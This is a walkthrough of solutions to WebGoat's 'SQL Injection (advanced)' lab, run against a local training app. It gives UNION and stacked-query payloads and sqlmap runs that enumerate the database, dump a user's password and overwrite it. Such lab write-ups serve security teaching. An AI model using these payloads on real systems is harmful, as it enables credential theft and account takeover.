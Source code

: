 # (A1) SQL Injection (advanced)

## Lesson #3
Retrieve all data from `user_system_data`
```sql
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);

CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

---
### Solution 1 - Using UNION
```
' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- 

==> Your query was: SELECT * FROM user_data WHERE last_name = '' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- '
```

### Solution 2 - Using new SQL statement
```
'; SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- 

==> Your query was: SELECT * FROM user_data WHERE last_name = ''; SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- ' 
```

## Lesson #5
Can you login as Tom?

---

SQL injection vulnerability is in _Username_ field in the register form.
Registering username `Tom'` returns `"output" : "Something went wrong"`:
```
PUT http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge
username_reg=Tom'&email_reg=...

==> ERROR
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "Something went wrong"
}
``` 

Also, usernames such as `Tom' AND '1'='1` or `Tom' AND '2'='2` returns:
```
{
  "lessonCompleted" : false,
  "feedback" : "User Tom' AND '2'='2 already exists please try to register with a different username.",
  "output" : null
}
```

This hint us there's most likely a check before the user is inserted:
```sql
SELECT 1 FROM users WHERE username = [USERNAME];
```

### Step 1 - Diagnostics
Capture a raw single registration request (I used [OWASP ZAP](https://owasp.org/www-project-zap/))
and save it to a file [reg-request.txt](data/01-sqli/reg-request.txt):
```
PUT http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: */*
Accept-Language: cs,sk;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=neMKsCycQsJqGIPSavkwFwmbrF_0bNIambqrtrt5
Host: localhost:8080

username_reg=Tom&email_reg=qqq%40foo.bar&password_reg=qqq&confirm_password_reg=qqq
```

Let' see if [sqlmap](http://sqlmap.org/) can find some vulnerabilities:
```
$ sqlmap -r data/01-sqli/reg-request.txt
..
POST parameter 'username_reg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:
---
Parameter: username_reg (PUT)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username_reg=Tom' AND 5565=5565 AND 'dHUn'='dHUn&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: username_reg=Tom';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(9374),0),500000000),NULL)--&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq

    Type: AND/OR time-based blind
    Title: HSQLDB > 2.0 AND time-based blind (heavy query)
    Payload: username_reg=Tom' AND CHAR(121)||CHAR(78)||CHAR(82)||CHAR(65)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'tHuZ'='tHuZ&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq
```

Good, we found [boolean-based blind](https://github.com/sqlmapproject/sqlmap/wiki/Techniques)
SQL injection vulnerability.

Since we don't know the name of the _users_ table, let's start with enumerating all databases.

### Step 2 - Enumerate all databases

Run _sqlmap_ with `--dbs` to enumerate all databases:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 --dbs
# Run first without --no-cast to get total number of databases

$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 --dbs --no-cast
..
available databases [5]:
[*] CONTAINER
[*] container
[*] INFORMATION_SCHEMA
[*] PUBLIC
[*] SYSTEM_LOBS
```
See [sqlmap usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage) to understand all parameters.
Adding `--no-cast` was a result of trial & error.

Ok, let's look what's inside `PUBLIC` database.

### Step 3 - Enumerate tables in PUBLIC database

Run _sqlmap_ with `--D PUBLIC --tables` to enumerate all tables in `PUBLIC` database:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC --tables
# Run first without --no-escape to get total number of tables

$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC --tables --no-escape
..
Database: PUBLIC
[10 tables]
+-----------------------+
| CHALLENGE_USERS       |
| EMPLOYEES             |
| JWT_KEYS              |
| SALARIES              |
| SERVERS               |
| SQL_CHALLENGE_USERS   |
| USER_DATA             |
| USER_DATA_TAN         |
| USER_SYSTEM_DATA      |
| flyway_schema_history |
+-----------------------+
```
Adding `--no-escape` was a result of trial & error.

Nice, finally, let's dump `SQL_CHALLENGE_USERS`.

### Step 4a - Dump SQL_CHALLENGE_USERS
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC -T SQL_CHALLENGE_USERS --dump --where "USERID='tom'" --no-escape
..
+--------+-----------------+-------------------------+
| USERID | EMAIL           | PASSWORD                |
+--------+-----------------+-------------------------+
| tom    | tom@webgoat.org | thisisasecretfortomonly |
+--------+-----------------+-------------------------+
```

And the password is `thisisasecretfortomonly`

### Step 4b - Change Tom's password

Dump `SQL_CHALLENGE_USERS` columns:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC -T SQL_CHALLENGE_USERS --columns
Database: PUBLIC
Table: SQL_CHALLENGE_USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | EMAIL    |
| PASSWORD | PASSWORD |
| USERID   | USERID   |
+----------+----------+
```

Register a new user with the following username:
```
Tom'; UPDATE SQL_CHALLENGE_USERS set PASSWORD = 'hello555' WHERE USERID = 'tom'; --
```

Tom's password is `hello555` now.